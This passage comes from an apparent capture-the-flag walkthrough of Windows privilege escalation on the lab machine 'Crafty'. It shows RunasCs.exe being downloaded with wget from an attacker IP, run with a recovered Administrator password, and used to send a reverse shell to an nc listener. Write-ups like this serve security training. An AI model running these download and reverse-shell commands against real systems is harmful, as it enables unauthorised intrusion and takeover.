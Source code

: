 

    PS C:\programdata> wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
    PS C:\programdata> ls

        Directory: C:\programdata

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d---s-        4/10/2020  10:46 AM                Microsoft
    d-----       10/24/2023  12:34 PM                Oracle
    d-----         2/6/2024  12:40 AM                Package Cache
    d-----       11/21/2023   9:54 PM                regid.1991-06.com.microsoft
    d-----        9/15/2018  12:19 AM                SoftwareDistribution
    d-----        4/10/2020   5:48 AM                ssh
    d-----        4/10/2020  10:49 AM                USOPrivate
    d-----        4/10/2020  10:49 AM                USOShared
    d-----        8/25/2021   2:57 AM                VMware
    -a----        6/10/2024   6:29 PM          51712 RunasCs.exe



The basic syntax is `RunasCs.exe <username> <password> <cmd>`. With a
bad password, it fails:



    PS C:\programdata> .\RunasCs.exe Administrator notthepassword "cmd /c whoami"
    [-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect



But with the password from the plugin it works:



    PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
    crafty\administrator



#### Shell

`RunasCs` has a `-r` option that takes an IP and port to connect stdin,
stdout, and stderr of the resulting process to, which works very much
like a reverse shell. With `nc` listening on TCP 443, I'll run it:



    PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
    [+] Running in session 1 with process function CreateProcessWithLogonW()
    [+] Using Station\Desktop: WinSta0\Default
    [+] Async process 'C:\Windows\system32\cmd.exe' with pid 3436 created in background.



At my listening `nc`, there's a shell as Administrator:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.249 49721
    Microsoft Windows [Version 10.0.17763.5329]
    (c) 2018 Microsoft Corporation. All rights reserved.
